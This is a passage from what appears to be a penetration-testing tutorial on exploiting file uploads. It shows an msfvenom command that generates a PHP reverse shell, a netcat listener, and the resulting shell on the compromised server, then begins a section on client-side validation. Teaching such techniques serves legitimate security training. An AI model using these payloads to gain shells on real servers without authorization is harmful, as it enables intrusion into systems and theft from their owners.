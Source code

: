 As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

* * *

## Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

```shell
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes

```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

```shell
nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.


# Client-Side Validation

* * *

Many web applications only rely on front-end JavaScript code to validate the selected file format before it is uploaded and would not upload it if the file is not in the required format (e.g., not an image).
